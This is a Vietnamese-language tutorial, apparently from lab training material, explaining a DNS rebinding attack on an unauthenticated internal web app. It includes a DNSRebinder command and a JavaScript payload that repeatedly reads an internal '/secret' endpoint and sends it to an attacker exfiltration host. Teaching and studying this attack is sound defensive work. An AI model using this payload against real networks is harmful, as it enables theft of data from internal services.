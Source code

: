 ### Các Bước Tấn Công

1. **Cấu Hình Tên Miền Tấn Công**: Kẻ tấn công (chúng ta) có tên miền `attacker.htb` và cấu hình máy chủ DNS với TTL thấp, sao cho tên miền này giải quyết tới địa chỉ IP của ứng dụng web, đồng thời chạy một mã JavaScript độc hại.

2. **Nạn Nhân Truy Cập Ứng Dụng Tấn Công**: Nạn nhân truy cập vào ứng dụng web của kẻ tấn công tại `http://attacker.htb`. Lúc này, DNS của `attacker.htb` sẽ giải quyết tới địa chỉ IP của ứng dụng web của kẻ tấn công và tải mã JavaScript độc hại.

3. **Cập Nhật Cấu Hình DNS (Rebinding)**: Kẻ tấn công cập nhật cài đặt DNS của tên miền `attacker.htb` để giải quyết thành `192.168.178.1` (địa chỉ IP của ứng dụng web nội bộ).

4. **Yêu Cầu HTTP của Mã JavaScript**: Mã JavaScript sẽ gửi yêu cầu HTTP GET đến `http://attacker.htb/secret`. Nhờ DNS rebinding, khi DNS của `attacker.htb` giải quyết thành `192.168.178.1`, yêu cầu sẽ được gửi tới ứng dụng web nội bộ của nạn nhân. Vì "nguồn" không thay đổi (chỉ có tên miền và địa chỉ IP thay đổi), trình duyệt của nạn nhân không xem đây là một yêu cầu "cross-origin". Do đó, mã JavaScript có thể truy cập và nhận phản hồi mà không vi phạm chính sách Same-Origin.

5. **Lấy Dữ Liệu và Đưa Ra Ngoài**: Mã JavaScript sẽ gửi dữ liệu thu được đến một tên miền do kẻ tấn công kiểm soát, ví dụ `http://exfiltrate.attacker.htb`. Kẻ tấn công có thể sử dụng cùng một phương pháp này để thao tác với ứng dụng web nội bộ bằng cách gửi các yêu cầu HTTP như PUT, POST, DELETE.

### Cấu Hình và Khai Thác

Trong ví dụ này, ứng dụng web nội bộ chạy tại `http://192.168.178.1` và có endpoint `/secret` mà kẻ tấn công muốn đánh cắp dữ liệu. Mã của endpoint này như sau:

```javascript
router.get("/secret", async (req, res) => {
  return res.status(200).send("This is secret data!");
});
```

Ứng dụng này không yêu cầu xác thực vì quản trị viên hệ thống nghĩ rằng nó không thể truy cập từ bên ngoài và vì thế coi là an toàn, nhưng điều này là sai. Sau khi cấu hình DNS đúng cách, chúng ta sẽ sử dụng **DNSRebinder** để thực hiện cuộc tấn công DNS rebinding với tên miền `http://www.attacker.htb` và địa chỉ IP của máy chủ công cộng thay thế `$PUBLIC_WEBSERVER_IP`.

Lệnh khai thác:

```bash
sudo python3 dnsrebinder.py --domain www.attacker.htb. --rebind 192.168.178.1 --ip $PUBLIC_WEBSERVER_IP --counter 1 --tcp --udp
```

Sau khi cấu hình DNS, kẻ tấn công sẽ tải mã JavaScript sau lên máy chủ của mình và bắt đầu dịch vụ exfiltration tại `http://exfiltrate.attacker.htb:1337`:

```html
<script>
startAttack();
function startAttack(){
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://www.attacker.htb/secret', true);
  xhr.onload = () => {
    fetch('http://exfiltrate.attacker.htb:1337/log?data=' + btoa(xhr.response));
  };
  xhr.send();
  setInterval(startAttack, 2000);
}
</script>
```
